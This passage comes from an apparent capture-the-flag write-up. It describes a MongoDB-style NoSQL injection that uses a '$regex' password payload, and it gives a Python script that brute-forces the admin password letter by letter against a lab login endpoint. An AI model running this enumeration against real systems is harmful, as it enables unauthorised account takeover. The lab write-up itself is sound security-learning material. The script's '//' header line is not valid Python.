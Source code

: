 The above mentioned payload uses regular expression to check whether the password is starting with the mentioned letter. I have created a python script which loops through all the letters in the ASCII encoding and extracts the password using the above mentioned payload:

```python
// Password Enumeration Script //

import requests
import string
import sys

url = "http://10.10.11.139:5000/login"
headers = {"Content-Type": "application/json"}
password = ""

status = True

while status:
    data = {
        "user": "admin",
        "password": {"$regex": f"^{password}$" }
    }

    response = requests.post(url, headers=headers, json=data)

    if "Invalid Password" not in response.text:
        status = False
        sys.stdout.write(f"\rPassword: {password}")
        sys.stdout.flush()
        break

    else:
        for each in string.ascii_letters:
            data = {
                "user": "admin",
                "password": {"$regex": f"^{password}{each}" }
            }

            response = requests.post(url, headers=headers, json=data)

            if "Invalid Password" not in response.text:
                password += each
                sys.stdout.write(f"\rPassword: {password}{each}")
                sys.stdout.flush()
                break
                    
            sys.stdout.write(f"\rPassword: {password}{each}")
            sys.stdout.flush()
```

We have extracted the password using the above script:

<figure><img src="../../.gitbook/assets/Untitled 11 (19).png" alt=""><figcaption></figcaption></figure>
